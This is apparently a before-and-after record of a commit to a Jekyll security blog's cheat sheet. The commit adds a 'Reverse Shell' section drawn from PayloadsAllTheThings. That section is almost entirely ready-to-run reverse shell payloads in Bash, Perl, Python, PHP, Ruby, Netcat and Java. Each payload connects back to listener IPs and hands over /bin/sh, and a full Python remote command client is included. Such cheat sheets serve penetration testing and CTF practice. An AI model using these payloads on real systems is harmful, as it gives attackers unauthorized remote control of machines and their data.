

Before and after one commit to datahackare/warz0ne, a Jekyll site: the page built from _posts/2021-03-31-CheatSheet.md, in a window 1280 px wide and 1400 px high, scrolled down 7089 px. Shown: the whole window at 89% size, without its empty margins (107-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2021-03-31-CheatSheet.md

````diff
--- a/_posts/2021-03-31-CheatSheet.md
+++ b/_posts/2021-03-31-CheatSheet.md
@@ -386,6 +386,107 @@ Python3
 python3 -m http.server
 ```
 
+### [](#header-3)Reverse Shell
+
+This shells is mostly from <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md" target="_blank">here</a>. This site is a very good referense for reverse shells.
+
+Bash
+
+```
+bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
+```
+
+```
+/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.12/1234 0>&1'
+```
+
+```
+0<&196;exec 196<>/dev/tcp/10.0.0.1/4242; sh <&196 >&196 2>&196
+```
+Perl
+
+```
+perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
+```
+
+Python2
+
+```
+python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
+```
+
+Python3
+
+```
+#!/usr/bin/python
+
+import os
+import socket
+import subprocess
+
+HOST = '192.168.1.100' # The ip of the listener.
+PORT = 4444 # The same port as listener.
+
+s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
+s.connect((HOST, PORT)) # Connect to listener.
+s.send(str.encode("[*] Connection Established!")) # Send connection confirmation.
+
+while 1: # Start loop.
+    data = s.recv(1024).decode("UTF-8") # Recieve shell command.
+    if data == "quit":
+        break # If it's quit, then break out and close socket.
+    if data[:2] == "cd":
+        os.chdir(data[3:]) # If it's cd, change directory.
+    # Run shell command.
+    if len(data) > 0:
+        proc = subprocess.Popen(data, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
+        stdout_value = proc.stdout.read() + proc.stderr.read() # Read output.
+        output_str = str(stdout_value, "UTF-8") # Format output.
+        currentWD = os.getcwd() + "> " # Get current working directory.
+        s.send(str.encode(currentWD + output_str)) # Send output to listener.
+
+s.close() # Close socket.
+```
+
+PHP
+
+```
+php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
+```
+
+Ruby
+
+```
+ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
+```
+
+Netcat
+
+```
+nc -e /bin/sh 10.0.0.1 1234
+```
+
+```
+rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
+```
+
+Netcat OpenBSD
+
+```
+rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f
+```
+
+Java
+
+```
+r = Runtime.getRuntime()
+p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
+p.waitFor()
+```
+
+
+
+
 ### [](#header-3)Misc
 
 Last edited files (10 minutes).
````
